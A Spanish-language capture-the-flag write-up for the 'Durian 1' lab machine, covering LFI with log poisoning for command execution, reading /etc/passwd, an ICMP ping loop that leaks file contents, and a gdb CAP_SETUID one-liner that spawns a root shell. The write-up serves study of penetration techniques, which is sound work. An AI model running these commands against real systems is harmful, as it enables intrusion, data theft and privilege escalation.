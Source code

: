 # Durian 1

Tags: [[_lfi]],[[_webExploitation]],[[_capabilities]]

Continuamos... <span style="color:#ff669c">. _.</span>

Una vez cambiado el user-agent para colocar el parámetro cmd con el que voy a elegir el comando a ejecutar, podemos usarlo desde la web.
Teniendo en cuenta que gracias a los logs vistos en
/proc/self/fd/0 :    encontramos que 8 era el file descriptor que contiene los logs. Y al cambiar el user-agent, generamos un log poisoning.

Desde la web:
http://192.168.0.12/cgi-data/getImage.php?file=/proc/self/fd/8&cmd=cat/etc/passwd
Pues se ejecuta gracias a que se interpreta en los log.

Entonces ganamos acceso a la máquina.

ESCALADA.
No pertenezco a un grupo especial.
Sudo -l da cosas no importantes, aunque el de ping llama la atención

No es el caso, pero recordemos que podemos exfiltrar data a través de ICMP.
<span style="color:#88c425">xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 127.0.0.1 -p $line; done</span> 
Mandamos líneas de 4 a mi mismo, y vemos cómo sí se puede enviar patroness, en este caso del /etc/hosts

Podemos ver en gtfobins si hay posibilidad de escalar con ping o shutdown pero nada de nada.


<span style="color:#88c425">find / -perm -4000 -user root 2/dev/null</span> :    no hay mucho.
<span style="color:#88c425">getcap -r / 2>/dev/null</span> :    vemos gdb Uyy
Nos permite cambiar el UID.
<span style="color:#88c425">/usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit</span> :    esto porque gdb tiene capabilitie CAP_SETUID

Ejecutamos y chinpun.
